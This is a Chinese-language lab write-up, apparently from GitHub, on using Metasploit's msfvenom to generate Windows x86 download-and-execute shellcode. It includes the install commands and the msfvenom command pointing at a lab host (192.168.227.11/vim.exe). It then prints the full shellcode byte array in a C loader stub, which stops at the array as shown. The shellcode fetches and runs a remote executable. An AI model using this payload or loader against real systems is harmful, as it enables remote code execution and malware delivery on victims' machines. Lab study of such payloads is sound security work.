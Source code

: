利用metaploit，获得在windows x86平台上具有下载和执行功能的shellcode

* 实验环境：

	* 测试： windows xp
	* metasploit应用平台： ubuntu16.04 server
	* 远程服务器：192.168.227.11


* ubuntu16.04下安装metaploit：

		cd /opt
		curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
		chmod 755 msfinstall
		./msfinstall

* 查看符合要求的payload

  	![](https://i.imgur.com/eWfobOF.jpg)

* 查看payload参数配置
	
	![](https://i.imgur.com/v7qLfMN.jpg)
	
* 生成shellcode
	
	`sudo msfvenom -p windows/download_exec URL=192.168.227.11/vim.exe EXE=vim.exe -f c`

	![](https://i.imgur.com/zuiqCtM.jpg)

* 放入shellcode装载器，生成可执行文件

		#include<windows.h>
		#include<stdio.h>
		#include<string.h>
		
		char code[] = 
		"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
		"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
		"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
		"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
		"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
		"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
		"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
		"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68"
		"\x77\x69\x6e\x69\x89\xe6\x54\x68\x4c\x77\x26\x07\xff\xd5\x31"
		"\xff\x57\x57\x57\x57\x56\x68\x3a\x56\x79\xa7\xff\xd5\xeb\x60"
		"\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x6a\x50\x53\x50\x68\x57"
		"\x89\x9f\xc6\xff\xd5\xeb\x4f\x59\x31\xd2\x52\x68\x00\x32\x60"
		"\x84\x52\x52\x52\x51\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89"
		"\xc6\x6a\x10\x5b\x68\x80\x33\x00\x00\x89\xe0\x6a\x04\x50\x6a"
		"\x1f\x56\x68\x75\x46\x9e\x86\xff\xd5\x31\xff\x57\x57\x57\x57"
		"\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x75\x1c\x4b\x0f\x84"
		"\x79\x00\x00\x00\xeb\xd1\xe9\x8b\x00\x00\x00\xe8\xac\xff\xff"
		"\xff\x2f\x76\x69\x6d\x2e\x65\x78\x65\x00\xeb\x6b\x31\xc0\x5f"
		"\x50\x6a\x02\x6a\x02\x50\x6a\x02\x6a\x02\x57\x68\xda\xf6\xda"
		"\x4f\xff\xd5\x93\x31\xc0\x66\xb8\x04\x03\x29\xc4\x54\x8d\x4c"
		"\x24\x08\x31\xc0\xb4\x03\x50\x51\x56\x68\x12\x96\x89\xe2\xff"
		"\xd5\x85\xc0\x74\x2d\x58\x85\xc0\x74\x16\x6a\x00\x54\x50\x8d"
		"\x44\x24\x0c\x50\x53\x68\x2d\x57\xae\x5b\xff\xd5\x83\xec\x04"
		"\xeb\xce\x53\x68\xc6\x96\x87\x52\xff\xd5\x6a\x00\x57\x68\x31"
		"\x8b\x6f\x87\xff\xd5\x6a\x00\x68\xe0\x1d\x2a\x0a\xff\xd5\xe8"
		"\x90\xff\xff\xff\x72\x75\x6e\x64\x31\x31\x2e\x65\x78\x65\x00"
		"\xe8\x0b\xff\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x32"
		"\x37\x2e\x31\x31\x00";